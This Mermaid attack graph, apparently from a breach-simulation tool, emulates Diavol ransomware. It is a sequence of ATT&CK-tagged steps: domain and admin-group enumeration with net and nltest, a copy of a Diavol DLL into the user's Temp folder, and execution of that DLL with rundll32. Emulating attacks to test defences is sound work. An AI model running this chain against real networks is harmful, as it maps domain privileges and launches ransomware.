 ```mermaid
```


 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1[""]
Step2["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load run </i> <br>"]
Step3["<b> module: run </b> <br><h4> parameters: </h4> <i> net group /domain </i> <br><a href='https://attack.mitre.org/techniques/T1087.002'>att&ck-technique:T1087.002</a><br>
"]
Step4["<b> module: run </b> <br><h4> parameters: </h4> <i> net group /domain Domain Admins </i> <br><a href='https://attack.mitre.org/techniques/T1087.002'>att&ck-technique:T1087.002</a><br>
"]
Step5["<b> module: run </b> <br><h4> parameters: </h4> <i> net group Domain Computers /domain </i> <br><a href='https://attack.mitre.org/techniques/T1069.002'>att&ck-technique:T1069.002</a><br>
"]
Step6["<b> module: run </b> <br><h4> parameters: </h4> <i> net localgroup administrators </i> <br><a href='https://attack.mitre.org/techniques/T1069.001'>att&ck-technique:T1069.001</a><br>
"]
Step7["<b> module: run </b> <br><h4> parameters: </h4> <i> net view /all </i> <br><a href='https://attack.mitre.org/techniques/T1018'>att&ck-technique:T1018</a><br>
"]
Step8["<b> module: run </b> <br><h4> parameters: </h4> <i> nltest /domain_trusts /all_trusts </i> <br><a href='https://attack.mitre.org/techniques/T1482'>att&ck-technique:T1482</a><br>
"]
Step9[""]
Step10["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load downloader </i> <br>"]
Step11["<b> module: downloader </b> <br><h4> parameters: </h4> <i> --src VFS:/shared/threats/Diavol/tfpkuengdlu.dll --dest %USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll </i> <br>"]
Step12["<b> module: run </b> <br><h4> parameters: </h4> <i> rundll32.exe %USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll,EnterDll </i> <br><a href='https://attack.mitre.org/techniques/T1218.011'>att&ck-technique:T1218.011</a><br>
"]
Step13["<b> module: controller </b> <br><h4> parameters: </h4> <i> --shutdown </i> <br><a href='https://attack.mitre.org/tactics/TA0011'>att&ck-tactic:TA0011</a><br>
<a href='https://attack.mitre.org/techniques/T1219'>att&ck-technique:T1219</a><br>
"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
Step4 --> Step5
Step5 --> Step6
Step6 --> Step7
Step7 --> Step8
Step8 --> Step9
Step9 --> Step10
Step10 --> Step11
Step11 --> Step12
Step12 --> Step13
Step13 --> Step14
```
